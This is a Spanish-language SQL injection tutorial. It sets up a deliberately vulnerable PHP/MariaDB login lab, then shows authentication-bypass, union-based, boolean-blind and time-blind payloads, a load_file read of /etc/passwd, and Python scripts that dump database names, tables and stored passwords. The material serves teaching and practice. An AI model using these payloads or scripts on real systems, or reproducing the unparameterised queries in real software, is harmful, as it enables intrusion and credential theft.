



SQL Injection MySQL
Explotación de SQL Injection en mysql
Preparación
Necesitamos crear un entorno vulnerable en mi caso usare docker, instalamos algunas cosas
root@0bf02e8d0adf:~# apt install apache2 mariadb-server php php-mysql
Una vez instalados habilitamos el servicio apache2 para la web y mariadb para mysql
root@0bf02e8d0adf:~# service apache2 start
[ ok ] Starting Apache httpd web server: apache2.
root@0bf02e8d0adf:~# service mariadb start
[ ok ] Starting MariaDB database server: mariadb.
root@0bf02e8d0adf:~#
Nos conectaremos a mysql y crearemos una base de datos que usaremos como ejemplo
root@0bf02e8d0adf:~# mariadb
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]> CREATE DATABASE example;
Query OK, 1 row affected (0.001 sec)
MariaDB [(none)]> USE example;
Database changed
MariaDB [example]>
En ella crearemos una tabla users con las columnas id, role, username y password
MariaDB [example]> CREATE TABLE users (id int, role varchar(255), username varchar(255), password varchar(255));
Query OK, 0 rows affected (0.020 sec)
Ahora insertaremos multiples valores en cada uno de los campos de las columnas existentes
MariaDB [example]> INSERT INTO users (id, role, username, password) VALUES (1, "Noob", "GatoGamer1155", "gatogamer123!");
Query OK, 1 row affected (0.009 sec)
MariaDB [example]> INSERT INTO users (id, role, username, password) VALUES (2, "Hacker", "0bfxgh0st", "ghost1337!");
Query OK, 1 row affected (0.005 sec)
MariaDB [example]> INSERT INTO users (id, role, username, password) VALUES (3, "Hacker", "EddieDota", "alvarovazquez69!");
Query OK, 1 row affected (0.005 sec)
MariaDB [example]> INSERT INTO users (id, role, username, password) VALUES (4, "Pro Hacker", "Txhaka", "password123");
Query OK, 1 row affected (0.013 sec)
MariaDB [example]> INSERT INTO users (id, role, username, password) VALUES (5, "Elite Hacker", "Pascualropi", "vulnwhatsapp413");
Query OK, 1 row affected (0.004 sec)
MariaDB [example]> SELECT * FROM users;
+------+--------------+---------------+------------------+
| id | role | username | password |
+------+--------------+---------------+------------------+
| 1 | Noob | GatoGamer1155 | gatogamer123! |
| 2 | Hacker | 0bfxgh0st | ghost1337! |
| 3 | Hacker | EddieDota | alvarovazquez69! |
| 4 | Pro Hacker | Txhaka | password123 |
| 5 | Elite Hacker | Pascualropi | vulnwhatsapp413 |
+------+--------------+---------------+------------------+
5 rows in set (0.001 sec)
MariaDB [example]>
Finalmente creamos un usuario y le otorgaremos acceso a la base de datos example
MariaDB [example]> CREATE USER 'user'@localhost IDENTIFIED BY 'password';
Query OK, 0 rows affected (0.007 sec)
MariaDB [example]> GRANT ALL ON example.* TO 'user'@localhost IDENTIFIED BY 'password';
Query OK, 0 rows affected (0.003 sec)
MariaDB [example]>
Ahora crearemos un par de scripts para la web, y los depositaremos en /var/www/html
<!DOCTYPE html>
<html>
<head>
<title>Login Panel</title>
</head>
<body>
<form action="panel.php" method="post">
<label for="username">Username:</label>
<input type="text" id="username" name="username">
<br>
<label for="password">Password:</label>
<input type="password" id="password" name="password">
<br><br>
<input type="submit" value="Login">
</form>
</body>
</html>
<?php
$dbhostname = 'localhost';
$dbuser = 'user';
$dbpassword = 'password';
$dbname = 'example';
$connection = mysqli_connect($dbhostname, $dbuser, $dbpassword, $dbname);
$username = $_POST["username"];
$password = $_POST["password"];
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
$result = mysqli_query($connection, $query);
if (mysqli_num_rows($result) > 0) {
session_start();
$_SESSION["loggedin"] = true;
header("Location: example.php");
}
else {
echo "The Username or Password is Incorrect";
}
?>
<!DOCTYPE html>
<html>
<head>
<title>Information users</title>
</head>
<body>
<form action="example.php" method="get">
<label for="id">User id:</label>
<input type="text" id="id" name="id">
<input type="submit" value="Send">
</form>
</body>
</html>
<?php
$dbhostname = 'localhost';
$dbuser = 'user';
$dbpassword = 'password';
$dbname = 'example';
$connection = mysqli_connect($dbhostname, $dbuser, $dbpassword, $dbname);
$input = $_GET['id'];
$query = "SELECT id, role, username FROM users WHERE id='$input'";
$results = mysqli_query($connection, $query);
while ($rows = mysqli_fetch_assoc($results)) {
echo "<table>";
echo "<tr>";
echo "<th align='center'>id</th>";
echo "<th align='center'>role</th>";
echo "<th align='center'>username</th>";
echo "</tr>";
echo "<tr>";
echo "<td align='center'> " . $rows['id'] . "</td>";
echo "<td align='center'> " . $rows['role'] . "</td>";
echo "<td align='center'> " . $rows['username'] . "</td>";
echo "</tr>";
echo "</table>";
}
?>
Authentication Bypass
Tenemos los archivos y estamos corriendo el servicio, veamos el login.php
Si enviamos un usuario y contraseña como user y pass, nos dice que es incorrecto
La query compara la data que pasamos con algun usuario y contraseña de la base de datos
SELECT * FROM users WHERE username='$username' AND password='$password'";
Si no conocemos credenciales existentes en la db es imposible entrar .... ¿o no?
Con una query como la siguiente como user y cualquier cosa como contraseña nos loguea
'or 1=1-- -
¿Que hace '-- -' exactamente?
Lo que hace es comentar lo que sigue de la query sql para que no se ejecute, tambien se puede usar # dependiendo la situación
Pero ¿porque?, al enviar eso como query sobreescribe el campo user en la query y quedaria asi
SELECT * FROM users WHERE username=''or 1=1-- -' AND password='pass'";
Cierra la query con ' pero no hay un usuario sin contenido, para eso sirve or 1=1, si el usuario es incorrecto comparará que 1 sea igual a 1 cuando haga eso dará la query como correcta
SQL Injection Union Based
Una vez autenticados nos redirige a example.php que tiene un campo de user id
Enviamos algun posible id válido por ejemplo 1 y nos muestra la información del usuario

El id se maneja en un parametro por GET, si lo cambiamos por 2 nos muestra otra información

Podemos aplicar un ordenamiendo de datos probando con la columna 4 y nos deja de mostrar info
1'order by 4-- -
Probamos con 3 columnas y nos muestra nuevamente asi que existen solo 3 columnas
1'order by 3-- -
En este punto podemos empezar a jugar con union select para representar 3 campos
1'union select 1,2,3-- -
Usaremos el campo 2 para ver el nombre de la base de datos en uso, que se llama example
1'union select 1,database(),3-- -

Ahora pasaremos la query para enumerar las bases de datos, nos muestra 2 una en cada linea
1'union select 1,schema_name,3 from information_schema.schemata-- -
Podemos usar group_concat para verlas en una sola linea separado por comas
1'union select 1,group_concat(schema_name),3 from information_schema.schemata-- -

Ahora que sabemos las db enumeramos las tablas existentes en example, solo vemos users
1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='example'-- -

Conocemos la tabla users asi que enumeramos sus columnas, (id, role, username y password)
1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='example' and table_name='users'-- -
En caso que nos hubiera dado problemas especificar table_schema o table_name podemos representarlo en hexadecimal y tambien deberia funcionar
1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=0x6578616d706c65 and table_name=0x7573657273-- -
Solos nos interesan las columnas username y password de la tabla users de la base de datos example, podemos hacer una query para leerlos, separandolos por 0x3a (:) en hexadecimal
1'union select 1,group_concat(username,0x3a,password),3 from example.users-- -

De esta manera enumeramos la db, pero hay otras funciones como load_file que nos permiten leer archivos en este caso el /etc/passwd
1'union select 1,load_file("/etc/passwd"),3-- -
SQL Injection Boolean Based
Para explotar la sqli basada en boolean dejaremos el example.php de esta manera
<?php
$dbhostname = 'localhost';
$dbuser = 'user';
$dbpassword = 'password';
$dbname = 'example';
$connection = mysqli_connect($dbhostname, $dbuser, $dbpassword, $dbname);
$input = $_GET['id'];
$query = "SELECT id, role, username FROM users WHERE id='$input'";
$results = mysqli_query($connection, $query);
while ($rows = mysqli_fetch_assoc($results)) {
echo "Query was successfully";
}
?>
De esta manera cuando la query sea correcta nos dira que es correcta de lo contrario no devolvera nada, hagamos una prueba rapida
En esta query podemos ver que es igual a el primer caracter de la base de datos que es e
MariaDB [example]> select substr(database(),1,1);
+------------------------+
| substr(database(),1,1) |
+------------------------+
| e |
+------------------------+
1 row in set (0.002 sec)
MariaDB [example]>
En la web ejecutamos una condicional, y al decirle que la query es igual a e nos devuelve 'Query was successfully'
1'and (select substr(database(),1,1))='e'-- -
Si le pasamos un valor incorrecto como i no nos devuelve nada, la pagina esta en blanco
1'and (select substr(database(),1,1))='i'-- -
Podemos usar este condicional para iterar por cada caracter y por posiciones, pero mas que hacerlo manual podemos automatizarlo en un script de python
#!/usr/bin/python3
from pwn import log
import string, requests
characters = string.ascii_lowercase
bar = log.progress("Database")
value = ""
for position in range(0,20):
for character in characters:
request = requests.get(f"http://172.17.0.2/example.php?id=1'and (select substr(database(),{position},1))='{character}'-- -")
if request.text == "Query was successfully":
value += character
bar.status(value)
Al ejecutar el script nos devuelve la base de datos actualmente en uso
❯ python3 exploit.py
[◢] Database: example
Modificamos el script de la siguiente manera para enumerar todas las bases de datos
#!/usr/bin/python3
from pwn import log
import string, requests
characters = string.ascii_lowercase + string.punctuation
bar = log.progress("Databases")
value = ""
for db in range(0,5):
value += "\n\033[1;37m[\033[1;34m*\033[1;37m] "
for position in range(0,20):
for character in characters:
request = requests.get(f"http://172.17.0.2/example.php?id=1'and (select substr(schema_name,{position},1) from information_schema.schemata limit {db},1)='{character}'-- -")
if request.text == "Query was successfully":
value += character
bar.status(value)
Lo ejecutamos y ahora nos muestra todas las bases de datos existentes, entre ellas example
❯ python3 exploit.py
[◢] Databases:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] example
Siguiendo la misma lógica modificamos el script para enumerar las tablas de la db example
#!/usr/bin/python3
from pwn import log
import string, requests
characters = string.ascii_lowercase
bar = log.progress("Tables")
value = ""
for table in range(0,3):
value += "\n\033[1;37m[\033[1;34m*\033[1;37m] "
for position in range(0,10):
for character in characters:
request = requests.get(f"http://172.17.0.2/example.php?id=1'and (select substr(table_name,{position},1) from information_schema.tables where table_schema='example' limit {table},1)='{character}'-- -")
if request.text == "Query was successfully":
value += character
bar.status(value)
Al ejecutarlo podemos ver que existe la tabla users en la base de datos example
❯ python3 exploit.py
[◢] Tables:
[*] users
Modificamos de nuevo el script ahora para enumerar las columnas de la tabla users
#!/usr/bin/python3
from pwn import log
import string, requests
characters = string.ascii_lowercase
bar = log.progress("Columns")
value = ""
for column in range(0,5):
value += "\n\033[1;37m[\033[1;34m*\033[1;37m] "
for position in range(0,10):
for character in characters:
request = requests.get(f"http://172.17.0.2/example.php?id=1'and (select substr(column_name,{position},1) from information_schema.columns where table_schema='example' and table_name='users' limit {column},1)='{character}'-- -")
if request.text == "Query was successfully":
value += character
bar.status(value)
Al ejecutarlo podemos ver las columnas id, role, username y password
❯ python3 exploit.py
[◢] Columns:
[*] id
[*] role
[*] username
[*] password
Ahora modificaremos de nuevo, pero iteraremos por cada columna para sacar los datos de cada una, de la siguiente forma
#!/usr/bin/python3
from pwn import log
import string, requests
characters = string.ascii_lowercase + string.digits + string.punctuation + string.whitespace
columns = ["id", "role", "username", "password"]
for column in columns:
print("\r")
bar = log.progress(f"Dumpeando columna {column}")
value = ""
for dump in range(0,5):
value += "\n\033[1;37m[\033[1;34m*\033[1;37m] "
for position in range(0,18):
for character in characters:
request = requests.get(f"http://172.17.0.2/example.php?id=1' and (select substr({column},{position},1) from example.users limit {dump},1)='{character}'-- -")
if request.text == "Query was successfully":
value += character
bar.status(value)
Finalmente ejecutamos el script y nos dumpea la info de todas las columnas una por una
❯ python3 exploit.py
[◢] Dumpeando columna id:
[*] 1
[*] 2
[*] 3
[*] 4
[*] 5
[◢] Dumpeando columna role:
[*] noob
[*] hacker
[*] hacker
[*] pro hacker
[*] elite hacker
[◢] Dumpeando columna username:
[*] gatogamer1155
[*] 0bfxgh0st
[*] eddiedota
[*] txhaka
[*] pascualropi
[◢] Dumpeando columna password:
[*] gatogamer123!
[*] ghost1337!
[*] alvarovazques69!
[*] password123
[*] vulnwhatsapp413
SQL Injection Time Based
¡Tener en cuenta!
Los scripts como se puede ver son muy parecidos en boolean based y en time based, lo unico cambia el payload y el condicional
Boolean based: se basa en si una cadena o no existe en la respuesta de la petición Time based: se basa el el tiempo que tarda en responder la petición
Modificamos el example.php eliminando lo que nos muestra el output, solo que se ejecute la query
<?php
$dbhostname = 'localhost';
$dbuser = 'user';
$dbpassword = 'password';
$dbname = 'example';
$connection = mysqli_connect($dbhostname, $dbuser, $dbpassword, $dbname);
$input = $_GET['id'];
$query = "SELECT id, role, username FROM users WHERE id='$input'";
$results = mysqli_query($connection, $query);
?>
La idea es la misma que anterior pero en lugar de tomar un mensaje tomar el tiempo como base si la condicion se cumple que haga un sleep de varios segundos, como la siguiente query que cumple la condicion que el primer caracter de la base de datos es e por lo que tarda 5 segundos
Cuando la condicion no se cumple no tarda nada por ejemplo cambiamos por i

Sabiendo esto podemos crear un script que iterando por cada caracter basandose en el tiempo si se ejecuta el sleep y tarda mas de 2 segundos nos muestre el caracter correspondiente
#!/usr/bin/python3
from pwn import log
import string, requests, time
characters = string.ascii_lowercase
bar = log.progress("Database")
value = ""
for position in range(0,20):
for character in characters:
tstr = time.time()
requests.get(f"http://172.17.0.2/example.php?id=1' and if(substr(database(),{position},1)='{character}', sleep(2),1)-- -")
tend = time.time()
if (tend - tstr) > 2:
value += character
bar.status(value)
Al ejecutar el script nos devuelve la base de datos actualmente en uso
❯ python3 exploit.py
[◢] Database: example
Con la misma logica creamos uno que haga lo mismo, pero iterando sobre lineas y caracteres para dumpear las bases de datos
#!/usr/bin/python3
from pwn import log
import string, requests, time
characters = string.ascii_lowercase + string.punctuation
bar = log.progress("Databases")
value = ""
for db in range(0,5):
value += "\n\033[1;37m[\033[1;34m*\033[1;37m] "
for position in range(0,20):
for character in characters:
tstr = time.time()
requests.get(f"http://172.17.0.2/example.php?id=1'and if(substr((select schema_name from information_schema.schemata limit {db},1),{position},1)='{character}',sleep(2),1)-- -")
tend = time.time()
if (tend - tstr) > 2:
value += character
bar.status(value)
Al ejecutar el script despues de un rato nos muestra todas las bases de datos existentes
❯ python3 exploit.py
[◢] Databases:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] example
Lo dicho modificamos el script para que liste las tablas de example en lugar de las bases de datos
#!/usr/bin/python3
from pwn import log
import string, requests, time
characters = string.ascii_lowercase
bar = log.progress("Tables")
value = ""
for table in range(0,3):
value += "\n\033[1;37m[\033[1;34m*\033[1;37m] "
for position in range(0,10):
for character in characters:
tstr = time.time()
requests.get(f"http://172.17.0.2/example.php?id=1'and if(substr((select table_name from information_schema.tables where table_schema='example' limit {table},1),{position},1)='{character}',sleep(2),1)-- -")
tend = time.time()
if (tend - tstr) > 2:
value += character
bar.status(value)
Al ejecutar el script nos mostrara la tabla users que es la unica existente en la db example
❯ python3 exploit.py
[◢] Tables:
[*] users
Modificamos de nuevo el script para que itere sobre columnas en lugar de tablas, quedaria asi
#!/usr/bin/python3
from pwn import log
import string, requests, time
characters = string.ascii_lowercase
bar = log.progress("Columns")
value = ""
for column in range(0,5):
value += "\n\033[1;37m[\033[1;34m*\033[1;37m] "
for position in range(0,10):
for character in characters:
tstr = time.time()
requests.get(f"http://172.17.0.2/example.php?id=1'and if(substr((select column_name from information_schema.columns where table_schema='example' and table_name='users' limit {column},1),{position},1)='{character}',sleep(2),1)-- -")
tend = time.time()
if (tend - tstr) > 2:
value += character
bar.status(value)
Al ejecutarlo nos muestra las columnas existentes de la tablas users de la db example
❯ python3 exploit.py
[◢] Columns:
[*] id
[*] role
[*] username
[*] password
Ahora iteramos por cada columna para dumpearla y conseguimos todos los datos de la db
#!/usr/bin/python3
from pwn import log
import string, requests, time
characters = string.ascii_lowercase + string.digits + string.whitespace + string.punctuation
columns = ["id", "role", "username", "password"]
for column in columns:
print("\r")
bar = log.progress(f"Dumpeando columna {column}")
value = ""
for dump in range(0,5):
value += "\n\033[1;37m[\033[1;34m*\033[1;37m] "
for position in range(0,18):
for character in characters:
tstr = time.time()
requests.get(f"http://172.17.0.2/example.php?id=1'and if(substr((select {column} from example.users limit {dump},1),{position},1)='{character}',sleep(2),1)-- -")
tend = time.time()
if (tend - tstr) > 2:
value += character
bar.status(value)
Finalmente lo ejecutamos y ya tendriamos nuestro objetivo final basandonos en tiempo
❯ python3 exploit.py
[◢] Dumpeando columna id:
[*] 1
[*] 2
[*] 3
[*] 4
[*] 5
[◢] Dumpeando columna role:
[*] noob
[*] hacker
[*] hacker
[*] pro hacker
[*] elite hacker
[◢] Dumpeando columna username:
[*] gatogamer1155
[*] 0bfxgh0st
[*] eddiedota
[*] txhaka
[*] pascualropi
[◢] Dumpeando columna password:
[*] gatogamer123!
[*] ghost1337!
[*] alvarovazques69!
[*] password123
[*] vulnwhatsapp413
¡Importante!
La idea no es reutilizarar el script en todos los casos porque puede que haya cambio, la idea es entender la logica de la sintaxis de sql, las comparaciones y en que se basan los condicionales